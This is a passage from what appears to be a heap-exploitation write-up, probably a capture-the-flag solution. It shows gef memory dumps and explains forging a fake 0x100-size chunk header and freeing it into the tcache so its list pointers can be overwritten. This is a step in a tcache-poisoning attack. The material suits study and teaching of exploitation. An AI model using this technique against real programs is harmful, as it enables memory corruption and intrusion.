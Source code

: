 ```
0x560eee9a5260: 0x0 0x0
0x560eee9a5270: 0x0 0x0
0x560eee9a5280: 0x0 0x0
0x560eee9a5290: 0x0 0x0
0x560eee9a52a0: 0x0 0x0
0x560eee9a52b0: 0x0 0x0
0x560eee9a52c0: 0x0 0x0
0x560eee9a52d0: 0x0 0x0
0x560eee9a52e0: 0x0 0x0
0x560eee9a52f0: 0x0 0x0
0x560eee9a5300: 0x0 0x0
0x560eee9a5310: 0x0 0x0
```

As you can see, the `0x1` for the idx maps to the byte `0x560eee9a5049`. This also happens to make for a perfect fake chunk header with size `0x100`. Next we will free the fake chunk we just created, which will insert it into the tcache. Also the reason why we choose that spot, is the linked list pointers will begin at `0x560eee9a5050`, which we will be able to write to:
```
gef➤  x/100g 0x0000560eee9a5000
0x560eee9a5000: 0x0 0x251
0x560eee9a5010: 0x0 0x1000000000000
0x560eee9a5020: 0x0 0x0
0x560eee9a5030: 0x0 0x0
0x560eee9a5040: 0x0 0x100
0x560eee9a5050: 0x0 0x0
0x560eee9a5060: 0x0 0x0
0x560eee9a5070: 0x0 0x0
0x560eee9a5080: 0x0 0x0
0x560eee9a5090: 0x0 0x0
0x560eee9a50a0: 0x0 0x0
0x560eee9a50b0: 0x0 0x0
0x560eee9a50c0: 0x560eee9a5050  0x0
0x560eee9a50d0: 0x0 0x0
0x560eee9a50e0: 0x0 0x0
0x560eee9a50f0: 0x0 0x0
0x560eee9a5100: 0x0 0x0
0x560eee9a5110: 0x0 0x0
0x560eee9a5120: 0x0 0x0
0x560eee9a5130: 0x0 0x0
0x560eee9a5140: 0x0 0x0
0x560eee9a5150: 0x0 0x0
0x560eee9a5160: 0x0 0x0
0x560eee9a5170: 0x0 0x0
0x560eee9a5180: 0x0 0x0
0x560eee9a5190: 0x0 0x0
0x560eee9a51a0: 0x0 0x0
0x560eee9a51b0: 0x0 0x0
0x560eee9a51c0: 0x0 0x0
0x560eee9a51d0: 0x0 0x0
0x560eee9a51e0: 0x0 0x0
0x560eee9a51f0: 0x0 0x0
0x560eee9a5200: 0x0 0x0
0x560eee9a5210: 0x0 0x560eee9a5260
0x560eee9a5220: 0x0 0x0
0x560eee9a5230: 0x0 0x0
0x560eee9a5240: 0x0 0x0
0x560eee9a5250: 0x0 0x3b1
0x560eee9a5260: 0x0 0x0
0x560eee9a5270: 0x0 0x0
0x560eee9a5280: 0x0 0x0
0x560eee9a5290: 0x0 0x0
0x560eee9a52a0: 0x0 0x0
0x560eee9a52b0: 0x0 0x0
```